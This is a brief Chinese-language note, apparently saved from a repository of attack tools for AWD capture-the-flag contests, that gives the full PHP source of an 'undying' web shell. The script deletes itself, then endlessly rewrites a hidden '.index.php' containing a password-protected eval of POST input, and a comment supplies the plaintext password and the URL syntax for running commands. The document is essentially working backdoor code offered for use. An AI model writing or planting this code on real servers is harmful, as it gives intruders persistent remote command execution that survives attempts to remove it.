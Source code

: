 # 不死马

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = './.index.php';
$code = '<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>';
//pass=Sn3rtf4ck 马儿用法：fuckyou.php?pass=Sn3rtf4ck&a=command
while (1){
	file_put_contents($file,$code);
	usleep(5000);
}
?>
```

`.index.php` 是要循环写入的目标文件  

来源：https://github.com/admintony/Prepare-for-AWD/blob/master/Attack/不死马.php  


2020/6/12  
